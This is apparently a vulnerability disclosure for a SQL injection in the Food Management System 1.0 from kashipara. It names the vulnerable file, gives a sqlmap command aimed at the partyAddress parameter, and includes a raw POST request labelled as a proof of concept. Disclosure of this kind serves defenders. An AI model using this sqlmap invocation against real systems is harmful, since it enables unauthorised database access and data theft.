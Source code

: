 ###  

### Food Management System SQL Injection Vulnerability

Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: [www.kashipara.com/](http://www.kashipara.com/) 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\partylist_edit_submit.php

![img](https://cdn-images-1.medium.com/max/900/1*ryAyvVbVD6AcJjyoDIuWjg.png)








 When SQL statements are executed, variables entered by the user are not filtered and validated sufficiently, resulting in malicious SQL statements that can be injected by maliciously constructed inputs.

SQLmap：

![img](https://cdn-images-1.medium.com/max/900/1*TBkjFJljwLLzxrYHVNqe-Q.png)









SQLMAP：
python sqlmap.py -r 3.txt -p partyAddress — level 5 -risk 3
POC：

```shell
POST /chopstic1/partylist_edit_submit.php HTTP/1.1
Host: localhost
Content-Length: 78
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/chopstic1/party_details.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

id=2&partyName=aa&Contact=aa&Tin=aaa&Pan=aa&partyAddress=aaa&action=updateType
```